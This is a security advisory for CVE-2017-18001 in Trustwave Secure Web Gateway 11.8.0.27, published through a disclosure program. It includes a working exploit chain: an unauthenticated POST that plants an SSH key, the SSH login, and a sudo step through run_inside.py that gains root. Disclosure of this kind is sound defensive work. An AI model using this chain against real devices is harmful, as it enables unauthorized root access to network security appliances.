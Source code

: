 ## Vulnerability Summary
The following advisory describes an unauthorized access vulnerability that allows an unauthenticated user to add their own SSH key to a remote Trustwave SWG version 11.8.0.27.

Trustwave Secure Web Gateway (SWG) “provides distributed enterprises effective real-time protection against dynamic new malware, strong policy enforcement, and a unique Zero-Malware Guarantee when managed for you by our experts.”

## Credit
An independent security researcher has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

## Vendor response
Trustwave was informed of the vulnerability, and released the following advisory: https://www.trustwave.com/Resources/Trustwave-Software-Updates/Important-Security-Update-for-Trustwave-Secure-Web-Gateway/

CVE: CVE-2017-18001

## Vulnerability details
Trustwave SWG allows remote attackers to send to the SWG product a SSH key that will be used by the SWG product as the SSH key to logon to the device.

This allows unauthenticated user to send a POST request to /sendKey

```
POST /sendKey HTTP/1.1
Host: trustwave.device:5222
Content-Length: 558
content-type: multipart/form-data
user-agent: libwww-perl/6.15
Connection: close

--xYzZY
Content-Disposition: form-data; name="publicKey"; filename="public_key_to_send"
Content-Type: text/plain

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDFxLGHCIST4jLDreJoQZnIZX6Fcx/ZyM1dzR2ZSwPG7UC3GYs61/cRGFvL9yuPZwIn8f/p9MCMoKHIG1gNZu0i7pqqZgB5vL+Dbf1vXl4PLY0wwcNMyVUBJaTSHdHSqe1KGBcM/1/gMsGpgcOJw2XMNubmXZxRSFSQLca1BsDmEyPF1KVpGfk60GtEH+c5E6ScEaTP7h0NcM6zEl9gubO2R+cq9FsPcMwF4bdsxyEZYGtVdS8B4goewEt1Nj+1hAzBWGox+hySee0QshZFAvZUrfcn4TsOd1iT95jAFoIDReQn781hmT6YQBpnl7HbDp6otyXAxrsvMOg1fvriAzHv rsyncuser
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
--xYzZY--
```

Which will add the supplied ssh key to Trustwave SWG, which we can use it to login to the device:


```
 /usr/bin/ssh -q -o PasswordAuthentication=no -o StrictHostKeyChecking=no -o ConnectTimeout=3 -o ServerAliveInterval=10 -i ./test.key commander@trustwave.device
Last login: Fri Aug 25 9:01:23 2017 from x.x.x.x
SWG Version               : 11.8.0.27
SWG Maintenance Release   : 0
Role                      : vs
Machine Type              : NG-6000
```

If we will run the id command via ssh we will get the following response:

```
-sh-4.1$ id
uid=1000(rsyncuser) gid=48(apache) groups=48(apache)
```

Once we connected to Trustwave SWG via SSH we can run commands as root by accessing /opt/finjan/msh/run_inside.py

```
# sudo /opt/finjan/msh/run_inside.py bash
bash-4.1# id
uid=0(root) gid=0(root) groups=0(root)
```